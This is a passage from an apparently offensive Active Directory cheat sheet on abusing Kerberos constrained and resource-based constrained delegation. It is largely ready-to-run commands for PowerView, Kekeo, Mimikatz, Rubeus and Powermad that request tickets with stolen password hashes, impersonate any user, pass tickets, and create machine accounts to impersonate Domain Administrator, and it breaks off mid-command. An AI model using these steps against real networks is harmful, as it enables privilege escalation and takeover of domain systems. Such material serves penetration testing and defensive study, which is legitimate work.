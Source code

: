 Using PowerView and Kekeo:

#Enumerate Users and Computers with constrained delegation

Get-DomainUser -TrustedToAuth

Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation

tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

#Finally use mimikatz to ptt the TGS

Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'

*ALTERNATIVE:* Using Rubeus:

Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser>

/impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt

Now we can access the service as the impersonated user!

**What if we have delegation rights for only a spesific SPN? (e.g TIME):**

In this case we can still abuse a feature of kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. Thats gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

### Resource Based Constrained Delegation

*WUT IS DIS?:*

*TL;DR*

*If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate Domain Administrator and have complete access.*

Tools we are going to use:

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
- [Powermad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/GhostPack/Rubeus)

First we need to enter the security context of the user/machine account that has the privileges over the object. If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:

#Import Powermad and use it to create a new MACHINE ACCOUNT

. .\Powermad.ps1

New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-

